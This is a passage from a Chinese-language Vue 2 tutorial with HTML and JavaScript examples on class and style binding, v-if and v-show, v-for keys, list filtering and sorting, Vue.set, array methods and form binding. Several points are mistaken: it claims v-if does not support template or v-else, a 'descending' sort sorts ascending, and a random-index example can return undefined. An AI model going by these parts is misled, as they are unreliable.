            console.log('isHot被修改了',newValue,oldValue)
        }
    }) */

    //简写
    /* vm.$watch('isHot',(newValue,oldValue)=>{
        console.log('isHot被修改了',newValue,oldValue,this)
    }) */
</script>
```


# 四、VUE基础(三)


## 4.1：CSS绑定


### 1.准备css样式


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8" />
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
  <style>
    .basic{
      width: 400px;
      height: 100px;
      border: 1px solid black;
    }

    .happy{
      border: 4px solid red;;
      background-color: rgba(255, 255, 0, 0.644);
      background: linear-gradient(30deg,yellow,pink,orange,yellow);
    }
    .sad{
      border: 4px dashed rgb(2, 197, 2);
      background-color: gray;
    }
    .normal{
      background-color: skyblue;
    }

    .xht1{
      background-color: yellowgreen;
    }
    .xht2{
      font-size: 30px;
      text-shadow:2px 2px 10px red;
    }
    .xht3{
      border-radius: 20px;
    }
  </style>
</head>
<body>
<div id="root">
  <div>hello {{name}}</div>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el:'#root',
    data:{
      name:'小糊涂'
    }
  })
</script>
</html>
```


### 2.简介


1. `:class`='xxx'  v-bind:class=‘xxx’

2. 表达式是字符串: 'classA' 

3. 表达式是对象: {classA:isA, classB: isB}

4. 表达式是数组: ['classA', 'classB'] 


### 3.案例


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <style>
        .basic {
            width: 400px;
            height: 100px;
            border: 1px solid black;
        }

        .happy {
            border: 4px solid red;;
            background-color: rgba(255, 255, 0, 0.644);
            background: linear-gradient(30deg, yellow, pink, orange, yellow);
        }

        .sad {
            border: 4px dashed rgb(2, 197, 2);
            background-color: gray;
        }

        .normal {
            background-color: skyblue;
        }

        .xht1 {
            background-color: yellowgreen;
        }

        .xht2 {
            font-size: 30px;
            text-shadow: 2px 2px 10px red;
        }

        .xht3 {
            border-radius: 20px;
        }
    </style>
</head>
<body>
<div id="root">
    <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="changeMood">{{name}}</div>
    <br/><br/>
    <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
    <div class="basic" :class="classArr">{{name}}</div>
    <br/><br/>
    <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
    <div class="basic" :class="classObj">{{name}}</div>
    <br/><br/>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: '小糊涂',
            mood: 'normal',
            classArr: ['xht1', 'xht2', 'xht3'],
            classObj: {
                xht1: true,
                xht2: true,
            },

        }, methods: {
            changeMood() {
                const arr = ['happy', 'sad', 'normal']
                const index = Math.floor(Math.random() * 4)
                this.mood = arr[index]
            }
        },
    })
</script>
</html>
```


## 4.2：stryle操作


### 1.简介


1. `:style`="{ color: activeColor, fontSize: fontSize + 'px' }" 

2. 其中 activeColor/fontSize 是 data 属性
3. `:style="{fontSize: xxx}"`xxx是动态值。
4. `:style="[a,b]"`其中a、b是样式对象。


### 2.案例


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <style>
        .basic {
            width: 400px;
            height: 100px;
            border: 1px solid black;
        }

        .happy {
            border: 4px solid red;;
            background-color: rgba(255, 255, 0, 0.644);
            background: linear-gradient(30deg, yellow, pink, orange, yellow);
        }

        .sad {
            border: 4px dashed rgb(2, 197, 2);
            background-color: gray;
        }

        .normal {
            background-color: skyblue;
        }

        .xht1 {
            background-color: yellowgreen;
        }

        .xht2 {
            font-size: 30px;
            text-shadow: 2px 2px 10px red;
        }

        .xht3 {
            border-radius: 20px;
        }
    </style>
</head>
<body>
<div id="root">
    <!-- 绑定style样式--对象写法 -->
    <div class="basic" :style="styleObj">{{name}}</div>
    <br/><br/>
    <!-- 绑定style样式--数组写法 -->
    <div class="basic" :style="styleArr">{{name}}</div>
    <br/><br/>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: '小糊涂',
            styleObj: {
                fontSize: '40px',
                color: 'red',
            },
            styleObj2: {
                backgroundColor: 'orange'
            },
            styleArr: [
                {
                    fontSize: '40px',
                    color: 'blue',
                },
                {
                    backgroundColor: 'gray'
                }
            ]

        }, methods: {
            changeMood() {
                const arr = ['happy', 'sad', 'normal']
                const index = Math.floor(Math.random() * 4)
                this.mood = arr[index]
            }
        },
    })
</script>
</html>
```




## 4.3：条件渲染


### 1.v-show


>  `v-show` **的元素始终会被渲染并保留在 DOM 中**。`v-show` 只是简单地切换元素的 CSS property `display`。
>
> 注意，`v-show` 不支持 `<template>` 元素，也不支持 `v-else`。


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <button @click="flag=!flag">点击我看效果</button>
    <button @click="count+=1">点击我看效果</button>
    <h1 v-show="flag">hello 小明</h1>
    <h1 v-show="count % 2 === 0">hello 小红</h1>
</div>
</body>
<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            flag: true,
            count: 1
        }
    })
</script>
</html>
```


### 2.v-if


> `v-if` 指令用于条件性地渲染一块内容。这块内容只会在指令的表达式返回 truthy 值的时候被渲染。
>
>  `v-if` **的元素始终会被渲染不会保留在 DOM 中**。
>
> 注意，`v-if` 不支持 `<template>` 元素，也不支持 `v-else`。
>
> ```java
> <h1 v-if="awesome">Vue is awesome!</h1>
> ```


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8"/>
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <button @click="flag=!flag">点击我看效果</button>
  <button @click="count+=1">点击我看效果</button>
  <h1 v-if="flag">hello 小明</h1>
  <h1 v-if="count % 2 === 0">hello 小红</h1>

</div>
</body>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      flag: true,
      count: 1
    }
  })
</script>
</html>
```


### 3.v-else和v-else-if


> + `v-else-if`，顾名思义，充当 `v-if` 的“else-if 块”，可以连续使用：
>
> + 你可以使用 `v-else` 指令来表示 `v-if` 的“else 块”：
>
> + `v-else` 元素必须紧跟在带 `v-if` 或者 `v-else-if` 的元素的后面，否则它将不会被识别。


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <button @click="count+=1">点击我看效果{{count}}</button>
    <h1 v-if="count  === 1">hello 小红</h1>
    <h1 v-else-if="count  === 2">hello 小明</h1>
    <h1 v-else-if="count  === 3">hello 小刚</h1>
    <h1 v-else-if="count  === 4">hello 张三、李四、王五</h1>
    <h1 v-else>hello 小糊涂</h1>
</div>
</body>
<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            flag: true,
            count: 0
        }
    })
</script>
</html>
```


### 4.v-if与template的配合使用


```java
<!DOCTYPE html>
<html>
<head>
  <meta charset="UTF-8"/>
  <title>demo</title>
  <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
  <!-- v-if与template的配合使用 -->
  <template v-if="flag">
    <h2>张三</h2>
    <h2>李四</h2>
    <h2>王五</h2>
  </template>
  <div v-if="flag">
    <h2>张三</h2>
    <h2>李四</h2>
    <h2>王五</h2>
  </div>
</div>
</body>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {
      flag: true,
      count: 1
    }
  })
</script>
</html>
```



### 5.v-if 和v-show


+ `v-if` 是“真正”的条件渲染，因为它会确保在切换过程中条件块内的事件监听器和子组件适当地被销毁和重建。

+ `v-if` 也是**惰性的**：如果在初始渲染时条件为假，则什么也不做——直到条件第一次变为真时，才会开始渲染条件块。

+ 相比之下，`v-show` 就简单得多——不管初始条件是什么，元素总是会被渲染，并且只是简单地基于 CSS 进行切换。

+ 一般来说，`v-if` 有更高的切换开销，而 `v-show` 有更高的初始渲染开销。因此，如果需要非常频繁地切换，则使用 `v-show` 较好；如果在运行时条件很少改变，则使用 `v-if` 较好。

> 1. 如果需要频繁切换 v-show 较好 
>
> 2. 当条件不成立时, v-if 的所有子节点不会解析(项目中使用)


## 4.4：列表渲染


### 1.v-for简介


v-for指令:
						1.用于展示列表数据
						2.语法：v-for="(item, index) in xxx" :key="yyy"
						3.可遍历：数组、对象、字符串（用的很少）、指定次数（用的很少）


### 2.案例


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>demo</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <h1>hello {{name}}</h1>
    <h2>遍历数组</h2>
    <ul>
        <li>id---name---pwd</li>
        <li :id="item.id" v-for="item in users">{{item.id}}---{{item.name}}---{{item.pass}}</li>
    </ul>
    <h2>遍历数组--带索引</h2>
    <ul>
        <li>index---id---name---pwd</li>
        <li :id="index" v-for="(item,index) in users">{{index}}---{{item.id}}---{{item.name}}---{{item.pass}}</li>
    </ul>
    <h2>遍历对象</h2>
    <ul>
        <li v-for="(value,key) in user">{{key}}---{{value}}</li>
    </ul>
    <h2>遍历字符串</h2>
    <ul>
        <li v-for="value in str">{{value}}</li>
    </ul>
    <h2>遍历字符串带索引</h2>
    <ul>
        <li v-for="(value ,index) in str">{{index}}---{{value}}</li>
    </ul>
</div>
</body>

<script type="text/javascript">
    new Vue({
        el: '#root',
        data: {
            name: '小糊涂',
            user: {
                id: 1,
                name: 'admin',
                pass: 'admin'
            }, users: [
                {id: 1, name: '张三', pass: 'admin'},
                {id: 2, name: '李四', pass: 'admin'},
                {id: 3, name: '王五', pass: 'admin'}
            ],
            str: 'hello'

        }
    })
</script>
</html>
```


### 3.维护状态·key


当 Vue 正在更新使用 `v-for` 渲染的元素列表时，它默认使用“就地更新”的策略。如果数据项的顺序被改变，Vue 将不会移动 DOM 元素来匹配数据项的顺序，而是就地更新每个元素，并且确保它们在**每个索引位置正确渲染**。这个类似 Vue 1.x 的 `track-by="$index"`。

这个默认的模式是高效的，但是**只适用于不依赖子组件状态或临时 DOM 状态 (例如：表单输入值) 的列表渲染输出**。

为了给 Vue 一个提示，以便它能跟踪每个节点的身份，从而重用和重新排序现有元素，你需要为每项提供一个唯一 `key` attribute：

```java
<div v-for="item in items" v-bind:key="item.id">
  <!-- 内容 -->
</div>
```


+ 建议尽可能在使用 `v-for` 时提供 `key` attribute，除非遍历输出的 DOM 内容非常简单，或者是刻意依赖默认行为以获取性能上的提升。

+ 因为它是 Vue 识别节点的一个通用机制，`key` 并不仅与 `v-for` 特别关联。后面我们将在指南中看到，它还具有其它用途。

+ 不要使用对象或数组之类的非基本类型值作为 `v-for` 的 `key`。请用字符串或数值类型的值。


### 4.key的问题重现


我们在使用key的时候我们如果这样写：

```java
 <li :id="index" v-for="(item,index) in users" :key="index">{{item.name}}:<input type="text" value=""></li>
```

使用数据的索引来做key，但是是有问题的：下面案例：


> #### 代码：
>
> ```java
> <!DOCTYPE html>
> <html>
> <head>
>     <meta charset="UTF-8"/>
>     <title>demo</title>
>     <script type="text/javascript" src="../js/vue.js"></script>
> </head>
> <body>
> <div id="root">
>     <h1>hello {{name}}</h1>
>     <h2>
>         <button @click="addPrefix">在第一个节点前面增加节点</button>
>         <button @click="addSufix">在最后一个节点增加节点</button>
>         <button @click="delPrefix">删除第一个节点</button>
>         <button @click="delSufix">删除最后一个节点</button>
>     </h2>
>     <ul>
>         <li>index---id---name---pwd</li>
>         <li :id="index" v-for="(item,index) in users" :key="index">{{item.name}}:<input type="text" value=""></li>
>     </ul>
> 
> </div>
> </body>
> 
> <script type="text/javascript">
>     new Vue({
>         el: '#root',
>         data: {
>             name: '小糊涂',
>             count: 3,
>             users: [
>                 {id: 1, name: '张三', pass: 'admin'},
>                 {id: 2, name: '李四', pass: 'admin'},
>                 {id: 3, name: '王五', pass: 'admin'}
>             ]
>         }, methods: {
>             addPrefix() {
>                 this.users.unshift({id: this.count++, name: "测试", pass: "admin"})
>             },
>             addSufix() {
>                 this.users.push({id: this.count++, name: "测试", pass: "admin"})
>             },
>             delPrefix() {
>                 this.users.shift()
>             },
>             delSufix() {
>                 this.users.pop()
>             }
>         }
>     })
> </script>
> </html>
> ```
>
> #### 效果测试
>
> 


### 5.key的问题解决


1.最好使用每条数据的**唯一标识**作为key, 比如id、手机号、身份证号、学号等唯一值。

2.如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，**仅用于渲染列表用于展示，使用index作为key是没有问题的。**





### 6.key的总结


1. 虚拟DOM中key的作用：
   
    1. key是虚拟DOM对象的标识，当数据发生变化时，Vue会根据【新数据】生成【新的虚拟DOM】,随后Vue进行【新虚拟DOM】与【旧虚拟DOM】的差异比较，比较规则如下：
2. 对比规则：

     1. 旧虚拟DOM中找到了与新虚拟DOM相同的key：

          1. 若虚拟DOM中内容没变, 直接使用之前的真实DOM！
          2.  ②.若虚拟DOM中内容变了, 则生成新的真实DOM，随后替换掉页面中之前的真实DOM。
     3. 旧虚拟DOM中未找到与新虚拟DOM相同的key,创建新的真实DOM，随后渲染到到页面。
3. 用index作为key可能会引发的问题：
    1. 若对数据进行：逆序添加、逆序删除等破坏顺序操作: 会产生没有必要的真实DOM更新 ==> 界面效果没问题, 但效率低。
    2. 如果结构中还包含输入类的DOM：  会产生错误DOM更新 ==> 界面有问题。
4. 开发中如何选择key?

    1. 最好使用每条数据的唯一标识作为key, 比如id、手机号、身份证号、学号等唯一值。
    2. 如果不存在对数据的逆序添加、逆序删除等破坏顺序操作，仅用于渲染列表用于展示，使用index作为key是没有问题的。


### 7.列表过滤


#### 效果

输入框输入内容显示相关内容



#### 代码


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>列表过滤</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <ul>
        <li v-for="(p,index) of filPerons" :key="index">
            {{p.name}}-{{p.age}}-{{p.sex}}
        </li>
    </ul>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false
    //用watch实现
    //#region
    /* new Vue({
        el:'#root',
        data:{
            keyWord:'',
            persons:[
                {id:'001',name:'马冬梅',age:19,sex:'女'},
                {id:'002',name:'周冬雨',age:20,sex:'女'},
                {id:'003',name:'周杰伦',age:21,sex:'男'},
                {id:'004',name:'温兆伦',age:22,sex:'男'}
            ],
            filPerons:[]
        },
        watch:{
            keyWord:{
                immediate:true,
                handler(val){
                    this.filPerons = this.persons.filter((p)=>{
                        return p.name.indexOf(val) !== -1
                    })
                }
            }
        }
    }) */
    //#endregion

    //用computed实现
    new Vue({
        el:'#root',
        data:{
            keyWord:'',
            persons:[
                {id:'001',name:'马冬梅',age:19,sex:'女'},
                {id:'002',name:'周冬雨',age:20,sex:'女'},
                {id:'003',name:'周杰伦',age:21,sex:'男'},
                {id:'004',name:'温兆伦',age:22,sex:'男'}
            ]
        },
        computed:{
            filPerons(){
                return this.persons.filter((p)=>{
                    return p.name.indexOf(this.keyWord) !== -1
                })
            }
        }
    })
</script>
</html>
```


### 8.列表排序


#### 效果

如下我们可以对数据进行排序



#### 代码


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8" />
    <title>列表排序</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<!-- 准备好一个容器-->
<div id="root">
    <h2>人员列表</h2>
    <input type="text" placeholder="请输入名字" v-model="keyWord">
    <button @click="sortType = 2">年龄升序</button>
    <button @click="sortType = 1">年龄降序</button>
    <button @click="sortType = 0">原顺序</button>
    <ul>
        <li v-for="(p,index) of filPerons" :key="p.id">
            {{p.name}}-{{p.age}}-{{p.sex}}
            <input type="text">
        </li>
    </ul>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    new Vue({
        el:'#root',
        data:{
            keyWord:'',
            sortType:0, //0原顺序 1降序 2升序
            persons:[
                {id:'001',name:'马冬梅',age:30,sex:'女'},
                {id:'002',name:'周冬雨',age:31,sex:'女'},
                {id:'003',name:'周杰伦',age:18,sex:'男'},
                {id:'004',name:'温兆伦',age:19,sex:'男'}
            ]
        },
        computed:{
            filPerons(){
                const arr = this.persons.filter((p)=>{
                    return p.name.indexOf(this.keyWord) !== -1
                })
                //判断一下是否需要排序
                if(this.sortType){
                    arr.sort((p1,p2)=>{
                        return this.sortType === 1 ? p2.age-p1.age : p1.age-p2.age
                    })
                }
                return arr
            }
        }
    })

</script>
</html>
```


## 4.5：vue的set


+ **语法**

```java
Vue.set( target, propertyName/index, value )
```

- **参数**：

  - `{Object | Array} target`
  - `{string | number} propertyName/index`
  - `{any} value`

- **返回值**：设置的值。

- **用法**：

  向响应式对象中添加一个 property，并确保这个新 property 同样是响应式的，且触发视图更新。它必须用于向响应式对象上添加新 property，因为 Vue 无法探测普通的新增 property (比如 `this.myObject.newProperty = 'hi'`)

  > 注意对象不能是 Vue 实例，或者 Vue 实例的根数据对象。

```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Vue监测数据改变的原理</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root">
			<h1>学生信息</h1>
			<button @click="addSex">添加一个性别属性，默认值是男</button>
			<h2>姓名：{{student.name}}</h2>
			<h2 v-if="student.sex">性别：{{student.sex}}</h2>
			<h2>年龄：真实{{student.age.rAge}}，对外{{student.age.sAge}}</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		const vm = new Vue({
			el:'#root',
			data:{
				student:{
					name:'tom',
					age:{
						rAge:40,
						sAge:29,
					}
				}
			},
			methods: {
				addSex(){
					this.$set(this.student,'sex','男')
				}
			}
		})
	</script>
</html>
```


## 4.6：数据的更新检测


> 列表的渲染和vue中的set方法结合说数组检测


### 1.数组使用回忆


> 数据是原生js中的，我们看一下他的使用方法：


#### 创建数组


```java
var arr = new Array();  // 创建一个数组
var arr = new Array([size]);  // 创建一个数组并指定长度，注意不是上限，是长度
var arr = new Array(element0, element1, ..., elementn);  // 创建一个数组并赋值
var arr = [] // 字面量创建数组
var arr = Array.of(element0, element1, ..., elementn)  // 将一组值转换成数组
```


#### Array.from()伪数组变成数组


将伪数组变成数组，就是只要有length的属性就可以转成数组

```java
let name = "javascript";
console.log(name.length); // 10

let arr = Array.from(name);
console.log(arr); // [ 'j', 'a', 'v', 'a', 's', 'c', 'r', 'i', 'p', 't' ]
```


#### Array.of()转换成数组


将一组值转换成数组，类似于声明数组

```java
let arr = Array.of(10);
let arr2 = Array.of("hello", "world");

console.log(arr); // [ 10 ] 
console.log(arr2); // [ 'hello', 'world' ]
```


#### push()添加到数组末尾


可以接收任意数量的参数，把它们逐个添加到数组末尾，并返回修改后数组的长度

```java
let arr = [1, 2, 3];
arr.push(4);

console.log(arr); // [ 1, 2, 3, 4 ]
console.log(arr.length); // 4
```


#### pop()数组末尾移除


从数组末尾移除最后一项，减少数组的length值，然后返回移除的项

```java
let arr = [1, 2, 3];
let delVal = arr.pop();

console.log(arr); // [ 1, 2]
console.log(delVal); // 3
```


#### shift()移除数组中的第一个


移除数组中的第一个项并返回该项，同时将数组长度减1

```java
let arr = [1, 2, 3];
let delVal = arr.shift();

console.log(delVal); // 1
console.log(arr); // [ 2, 3 ]
console.log(arr.length); // 2
```


#### unshift()数组前端添加任意个项


在数组前端添加任意个项并返回新数组的长度

```text
let arr = [1, 2, 3];
let arrLength = arr.unshift(0);

console.log(arrLength); // 4
console.log(arr); // [ 0, 1, 2, 3 ]
```


#### reverse()反转数组项的顺序


反转数组项的顺序

```text
let arr = [1, 2, 3];
arr.reverse();

console.log(arr); // [ 3, 2, 1 ]
```


#### sort()排序


从小到大排序，但它的排序方法是根据数组转换字符串后来排序的


```java
let arr = [1, 5, 10, 15];
// 从小到大排序
console.log(arr.sort((p1,p2)=>{
    return p1-p2;
})); // [ 1, 5, 10, 15 ]
// 从大到小排序
console.log(arr.sort((p1,p2)=>{
    return p1-p2;
})); // [ 1, 5, 10, 15 ]
```


#### concat()合并数组


可以基于当前数组中的所有项创建一个新数组，不会影响原数组的值

```java
let arr = [1, 2, 3];
let newArr = arr.concat([4, 5, 6], [7, 8, 9]);

console.log(newArr); // [ 1, 2, 3, 4, 5, 6, 7, 8, 9 ]
console.log(arr); // [1, 2, 3]
```


#### arr.fill(target, start, end)插入值


使用给定的值，填充一个数组,ps:填充完后会改变原数组

- target – 待填充的元素
- start – 开始填充的位置-索引
- end – 终止填充的位置-索引（不包括该位置)

```java
let arr = [1, 2, 3, 4];
let arr2 = [5, 6, 7, 8];

// 全部填充5
arr.fill(5);
console.log(arr); // [ 5, 5, 5, 5 ]

// 从索引为1到3填充9
arr2.fill(9, 1, 3);
console.log(arr2); // [ 5, 9, 9, 8 ]
```


#### Array.isArray(arr)判断是否为数组

判断传入的值是否为数组

```java
let arr = [];
let obj = {};

console.log(Array.isArray(arr)); // true
console.log(Array.isArray(obj)); // false
```


#### indexOf()和lastIndexOf()查询数据位置


这两个方法都接收两个参数：要查找的项和（可选的）表示查找起点位置的索引。其中，`indexOf()`方法从数组的开头（位置0）开始向后查找，`lastIndexOf()`方法则从数组的末尾开始向前查找。

```java
let arr = [1, 2, 3, 2, 1];

// 从0开始查询值为2的位置
console.log(arr.indexOf(2)); // 1
// 从索引为2开始查询值为2的位置
console.log(arr.indexOf(2, 2)); // 3

// 倒叙查询值为2的位置
console.log(arr.lastIndexOf(2)); // 3
// 倒叙查询值为2的位置
console.log(arr.lastIndexOf(2, 2)); // 1
```


#### find()查询数据是否存在


数组实例的find方法，用于找出第一个符合条件的数组成员。它的参数是一个回调函数，所有数组成员依次执行该回调函数，直到找出第一个返回值为true的成员，然后返回该成员。如果没有符合条件的成员，则返回undefined。

```java
let arr = [1, 2, 3, 4, 5, 6];

let index = arr.find(val => val === 3);
let index2 = arr.find(val => val === 100);

console.log(index); // 3
console.log(index2); // undefined
```


#### findIndex()同上


和数组实例的findIndex方法的用法与find方法非常类似，返回第一个符合条件的数组成员的位置，如果所有成员都不符合条件，则返回-1。

```java
let arr = [1, 2, 3, 4, 5, 6];
let index = arr.findIndex(val => val === 3);
let index2 = arr.findIndex(val => val === 100);
console.log(index); // 2
console.log(index2); // -1
```


#### includes()数组是否包含给定的值


方法返回一个布尔值，表示某个数组是否包含给定的值，与字符串的includes方法类似。

```java
let arr = [1, 2, 3, 4, 5, 6];

console.log(arr.includes(3)); // true
console.log(arr.includes(100)); // false
```


#### 迭代方法数组


> **every()**


对数组中的每一项运行给定函数，如果该函数对每一项都返回true，则返回true。

```java
let arr = [1, 2, 3, 4, 5, 6];

// 是否所有的值都大于3
let isTrue = arr.every(value => value > 3);
console.log(isTrue); // false;
```


> **filter()**


对数组中的每一项运行给定函数，返回该函数会返回true的项组成的数组。

```java
let arr = [1, 2, 3, 4, 5, 6];

// 取数组中大于3的值重新组成新数组
let newArr = arr.filter(value => value > 3);
console.log(newArr); // [ 4, 5, 6 ]
```


> **forEach()**


对数组中的每一项运行给定函数。这个方法没有返回值。

```java
let arr = [1, 2, 3, 4, 5, 6];

// 迭代数组的每一项
arr.forEach((item, index) => {
  console.log(item); // 1, 2, 3, 4, 5, 6
})
```


> **map()**


对数组中的每一项运行给定函数，返回每次函数调用的结果组成的数组。

```java
let arr = [1, 2, 3, 4, 5, 6];

// 迭代数组每个值加上100返回新数组
let newArr = arr.map(val => val + 100);
console.log(newArr); // [ 101, 102, 103, 104, 105, 106 ]
```


> **some()**


对数组中的每一项运行给定函数，如果该函数对任一项返回true，则返回true。

```java
let arr = [1, 2, 3, 4, 5, 6];

// 迭代数组的每一项，只要有一项符合条件就返回true
let isTrue = arr.some(val => val >= 5);
let isTrue2 = arr.some(val => val > 6);

console.log(isTrue); // true
console.log(isTrue2); // false
```


> **reduce()和reduceRight()**


这两个方法都会迭代数组的所有项，然后构建一个最终返回的值。其中，reduce()方法从数组的第一项开始，逐个遍历到最后。而reduceRight()则从数组的最后一项开始，向前遍历到第一项。

```java
let arr = [1, 2, 3, 4];

// 从左到右累加结果
let result = arr.reduce((val1, val2) => {
  return val1 + val2;
});

console.log(result); // 10
```


> **entries()，keys() 和 values()**


ES6 提供三个新的方法——entries()，keys()和values()——用于遍历数组。它们都返回一个遍历器对象，可以用for…of循环进行遍历，唯一的区别是keys()是对键名的遍历、values()是对键值的遍历，entries()是对键值对的遍历。

```java
let arr = [1, 2, 3];

// entries()是对键值对的遍历
for (let val of arr.entries()) {
  console.log(val);
  /**
   [ 0, 1 ]
   [ 1, 2 ]
   [ 2, 3 ]
   */
}

// keys()是对键名的遍历
for (let val of arr.keys()) {
  console.log(val); // 0 1 2
}

// values()是对键值的遍历
for (let val of arr.values()) {
  console.log(val); // 1 2 3
}
```


### 2.vue如何检测


Vue 不能检测以下数组的变动：

1. 当你利用索引直接设置一个数组项时，例如：`vm.items[indexOfItem] = newValue`
2. 当你修改数组的长度时，例如：`vm.items.length = newLength`


举个例子：

```java
var vm = new Vue({
  data: {
    items: ['a', 'b', 'c']
  }
})
vm.items[1] = 'x' // 不是响应性的
vm.items.length = 2 // 不是响应性的
```

为了解决第一类问题，以下两种方式都可以实现和 `vm.items[indexOfItem] = newValue` 相同的效果，同时也将在响应式系统内触发状态更新：

```java
// Vue.set
Vue.set(vm.items, indexOfItem, newValue)
// Array.prototype.splice
vm.items.splice(indexOfItem, 1, newValue)
```

你也可以使用 [`vm.$set`](https://cn.vuejs.org/v2/api/#vm-set) 实例方法，该方法是全局方法 `Vue.set` 的一个别名：

```java
vm.$set(vm.items, indexOfItem, newValue)
```

为了解决第二类问题，你可以使用 `splice`：

```java
vm.items.splice(newLength)
```


## 4.7：收集表单数据


### 1.接收表单


```java
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8"/>
    <title>收集表单数据</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>
<div id="root">
    <form @submit.prevent="demo">
        账号：<input type="text" v-model="user.name"><br>
        密码：<input type="password" v-model="user.pass"><br>
        描述： <textarea v-model="user.message"></textarea><br>
        爱好：
        <input type="checkbox" v-model="user.loves" value="抽烟">抽烟
        <input type="checkbox" v-model="user.loves" value="喝酒">喝酒
        <input type="checkbox" v-model="user.loves" value="美女">美女<br>
        性别：
        <input type="radio" v-model="user.sex" value="男">男
        <input type="radio" v-model="user.sex" value="女">女<br>
        学历
        <select v-model="user.selected">
            <option disabled value="">请选择</option>
            <option value="1">一年级</option>
            <option value="2">二年级</option>
            <option value="3">三年级</option>
        </select><br>
        <input type="checkbox" v-model="user.agree">阅读并接受<a href="http://www.baidu.com">《用户协议》</a>
        <button>提交</button>
    </form>
    <hr>
    <p v-for="(value,key) in user" :key="key">{{key}}:{{value}}</p>
    <hr>
    {{jsonMethod}}
</div>
</body>
<script type="text/javascript">
    Vue.config.productionTip = false
    new Vue({
        el: '#root',
        data: {
            user: {
                name: 'admin',
                pass: 'admin',
                message: '',
                loves: ['抽烟'],
                sex: '男',
                selected: '1',
                agree: null,
            },
            jsonMethod:null
        },
        methods: {
            demo(){
                this.jsonMethod =JSON.stringify(this.user)
            }
        }
    })
</script>
</html>
```


### 2.复选框值绑定


```java
<input
  type="checkbox"
  v-model="toggle"
  true-value="yes"
  false-value="no"
>
// 当选中时
vm.toggle === 'yes'
// 当没有选中时
vm.toggle === 'no'
```

这里的 `true-value` 和 `false-value` attribute 并不会影响输入控件的 `value` attribute，因为浏览器在提交表单时并不会包含未被选中的复选框。如果要确保表单中这两个值中的一个能够被提交，(即“yes”或“no”)，请换用单选按钮。


### 3.单选按钮绑定


```java
<input type="radio" v-model="pick" v-bind:value="a">
// 当选中时
vm.pick === vm.a
```


### 4.下拉框值绑定


```java
<select v-model="selected">
    <!-- 内联对象字面量 -->
  <option v-bind:value="{ number: 123 }">123</option>
</select>
// 当选中时
typeof vm.selected // => 'object'
vm.selected.number // => 123
```


### 5.修饰符


#### .lazy


在默认情况下，`v-model` 在每次 `input` 事件触发后将输入框的值与数据进行同步 (除了[上述](https://cn.vuejs.org/v2/guide/forms.html#vmodel-ime-tip)输入法组合文字时)。你可以添加 `lazy` 修饰符，从而转为在 `change` 事件_之后_进行同步：

```java
<!-- 在“change”时而非“input”时更新 -->
<input v-model.lazy="msg">
```


#### .number


如果想自动将用户的输入值转为数值类型，可以给 `v-model` 添加 `number` 修饰符：

```java
<input v-model.number="age" type="number">
```

这通常很有用，因为即使在 `type="number"` 时，HTML 输入元素的值也总会返回字符串。如果这个值无法被 `parseFloat()` 解析，则会返回原始的值。


#### .trim


如果要自动过滤用户输入的首尾空白字符，可以给 `v-model` 添加 `trim` 修饰符：

```java
<input v-model.trim="msg">
```


## 4.8：过滤器


Vue.js 允许你自定义过滤器，可被用于一些常见的文本格式化。过滤器可以用在两个地方：**双花括号插值和 `v-bind` 表达式** (后者从 2.1.0+ 开始支持)。过滤器应该被添加在 JavaScript 表达式的尾部，由“管道”符号指示：


```java
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>过滤器</title>
		<script type="text/javascript" src="../js/vue.js"></script>
		<script type="text/javascript" src="../js/dayjs.min.js"></script>
	</head>
	<body>
		<!-- 
			过滤器：
				定义：对要显示的数据进行特定格式化后再显示（适用于一些简单逻辑的处理）。
				语法：
						1.注册过滤器：Vue.filter(name,callback) 或 new Vue{filters:{}}
